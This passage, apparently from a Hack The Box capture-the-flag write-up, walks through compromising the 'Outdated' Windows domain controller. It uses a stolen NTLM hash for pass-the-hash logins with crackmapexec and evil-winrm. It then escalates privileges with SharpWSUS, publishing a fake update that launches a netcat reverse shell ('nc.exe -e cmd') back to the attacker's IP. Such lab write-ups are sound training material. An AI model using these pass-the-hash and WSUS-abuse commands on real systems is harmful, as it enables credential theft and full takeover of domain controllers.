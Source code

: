 ```bash
[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5
```
This will retrieve the NTLM hash of the user sflowers, which then can be checked with crackmapexec:
```bash
crackmapexec winrm 10.10.11.175 -u 'sflowers' -H '1FCDB1F6015DCB318CC77BB2BDA14DB5' 
SMB         10.10.11.175    5985   DC               [*] Windows 10.0 Build 17763 (name:DC) (domain:outdated.htb)
HTTP        10.10.11.175    5985   DC               [*] http://10.10.11.175:5985/wsman
WINRM       10.10.11.175    5985   DC               [+] outdated.htb\sflowers:1FCDB1F6015DCB318CC77BB2BDA14DB5 (Pwn3d!)
```
The [+] and the (Pwned!) indicates that it is possible to login via winrm so let's do it:
```bash
evil-winrm -i 10.10.11.175 -u 'sflowers' -H '1FCDB1F6015DCB318CC77BB2BDA14DB5'         

*Evil-WinRM* PS C:\Users\sflowers\Documents>
```

### Privilege Escalation
If we execute a "whoami /groups" command we receive the following output:
![Description](/assets/img/Pasted image 20230125020305.png)

While searching for this WSUS we find that there is an exploit that allows to execute any command as administrator [SharpWSUS](https://labs.nettitude.com/blog/introducing-sharpwsus/)
But as no binary is public we need to compile it from scratch, for that we need a Windows Machine with Visual Studio, please follow the [dot NET Project Visual Studio compilation](https://shuciran.github.io/posts/dotNET-Project-Compilation-with-Visual-Studio/)[^dotnet-compilation] guide to create the .exe binary.

Once uploaded we can proceed to upload as well PsExec64.exe and nc.exe from the machine to execute this payload: 
```powershell
*Evil-WinRM* PS C:\Windows\Temp\PrivEsc> .\SharpWSUS.exe create /payload:"C:\Windows\Temp\PrivEsc\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c C:\\Windows\\Temp\\PrivEsc\\nc.exe -e cmd 10.10.14.2 1234" /title:"Reverse"
```
Then we need to accept this update:
```powershell
*Evil-WinRM* PS C:\Windows\Temp\PrivEsc> .\SharpWSUS.exe approve /updateid:259a3d88-48f6-4c40-96e7-78ea7463bd3c /computername:DC.outdated.htb /groupname:"Reverse"
```
Finally we can check the status of the installation:
```powershell
*Evil-WinRM* PS C:\Windows\Temp\PrivEsc> .\SharpWSUS.exe check /updateid:259a3d88-48f6-4c40-96e7-78ea7463bd3c /computername:DC.outdated.htb

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Check Update

Targeting DC.outdated.htb
TargetComputer, ComputerID, TargetID
```

[^dotnet-compilation]: dotNET Project Compilation with Visual Studio
[^full-tty-windows]: Fully Interactive TTY with ConPTY
[^follina]: Follina Exploitation
